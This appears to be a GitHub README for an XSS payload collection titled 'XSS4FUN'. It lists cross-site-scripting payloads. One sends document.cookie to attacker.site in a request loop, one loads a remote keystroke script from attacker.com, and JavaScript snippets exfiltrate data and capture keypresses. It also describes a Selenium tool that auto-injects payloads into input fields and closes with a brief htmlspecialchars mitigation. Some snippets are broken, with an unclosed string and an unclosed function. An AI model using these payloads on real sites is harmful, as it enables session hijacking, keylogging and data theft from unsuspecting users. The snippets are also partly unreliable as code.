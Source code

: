 # XSS4FUN :cookie:
Cross-Site-Scripting just for fun.

## Cross-Site-Scripting Applications:
  - Steal cookies for session hijacking.
  - Modify Webpage to perform phishing.
  - Inject malicious code.
## Basic payloads:
  - <script>alert(1)</script>

## Useful payloads:
  - **<script src=https://attacker.com/keystroke.js > </script>**
    - To include malicious javascript code in page.
  - **\<img src=anything onerror=alert(1) >**
    - When the **<script>** is being filtered by the Web Application, you can use javascript events.
  - **<script>alert(localStorage.getItem('salary'))</script>**
    - To collect sensitive information stored in Browser Local Storage.
  - **<img src=error onerror=this.src='http://attacker.site/collector.php?data='+document.cookie >**
    - This payload start a loop, so the browser start sending multiple requests to the attacker server with his cookie.

## Javascript useful codes:
  - To perform HTTP GET request
  ```
  var xhttp = new XMLHttpRequest(); //Init xhttp object
  xhttp.open("GET", "https://attacker.site/strokes.php?data=data, true); //GET request
  xhttp.send(); //Send request
  ```
  - Collect pressed key
  ```
  document.addEventListener("keydown",function(e){
  pressed_key = e.key;
  ```
 
## Automated Detection
  ## xss4fun.py
  Using selenium to find input fields and inject payloads, if the injection is sucessful, a printscreen is made.

## Mitigations    
  ## PHP
   Using **htmlspecialchars** to convert special characters to HTML.
  ```
  $word = htmlspecialchars($_GET['word']);
  ```
  So this **<script>alert(1)</script>** becomes this **\&lt;script\&gt;alert(1)\&lt;/script&gt**
